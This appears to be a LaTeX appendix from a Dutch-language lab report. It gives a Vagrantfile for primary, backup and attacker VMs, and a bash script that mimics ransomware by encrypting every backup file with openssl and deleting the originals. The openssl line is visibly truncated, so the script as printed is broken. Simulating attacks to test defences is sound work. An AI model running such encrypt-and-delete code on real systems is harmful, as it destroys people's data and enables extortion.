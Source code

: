 \chapter{Vagrantfile}
\label{sec:vagrant}
\begin{lstlisting}
Vagrant.configure("2") do |config|

  # Define the first VM - Primary
  config.vm.define "primary" do |primary|
    primary.vm.box = "ubuntu/jammy64"

    # Network configuration
    primary.vm.network "private_network", ip: "192.168.0.10", virtualbox__intnet: "internal_network"

    # Hardware resources
    primary.vm.provider "virtualbox" do |vb|
      vb.memory = "2048" # 2GB RAM
      vb.cpus = 1        # 1 CPU
    end
  end

  # Define the second VM - Backup
  config.vm.define "backup" do |backup|
    backup.vm.box = "ubuntu/jammy64"

    # Network configuration
    backup.vm.network "private_network", ip: "192.168.0.20", virtualbox__intnet: "internal_network"

    # Hardware resources
    backup.vm.provider "virtualbox" do |vb|
      vb.memory = "2048" # 2GB RAM
      vb.cpus = 1        # 1 CPU
    end
  end

  # Define the third VM - Attacker VM
  config.vm.define "attacker" do |attacker|
    attacker.vm.box = "ubuntu/jammy64"

    # Network configuration
    attacker.vm.network "private_network", ip: "192.168.0.30", virtualbox__intnet: "internal_network"

    # Hardware resources
    attacker.vm.provider "virtualbox" do |vb|
      vb.memory = "1024" # 1GB RAM
      vb.cpus = 1        # 1 CPU
    end
  end

end
\end{lstlisting}
\chapter{Script voor het simuleren van een ransomware-aanval}
\label{sec:bash}
\begin{lstlisting}[language=script, caption={Bash script om een ransomware-aanval na te bootsen}]
#!/bin/bash

BACKUP_DIR="/home/vagrant/backups"

# Ensure the encryption key is set as an environment variable
if [ -z "$ENCRYPTION_KEY" ]; then
  echo "Error: ENCRYPTION_KEY environment variable is not set."
  exit 1
fi

for file in "$BACKUP_DIR"/*; do
  if [ -f "$file" ]; then
    # Encrypt the file using OpenSSL
    if openssl enc -aes-256-cbc -salt -in "$file" -out "${file}.enc" -pass pass:"$ENCRYPTION_KEY" -pb>      echo "Encrypted $file and saved as ${file}.enc"
      rm "$file"
      echo "Original file $file is deleted."
    else
      echo "Error: Could not encrypt $file"
    fi
  fi
done
\end{lstlisting}


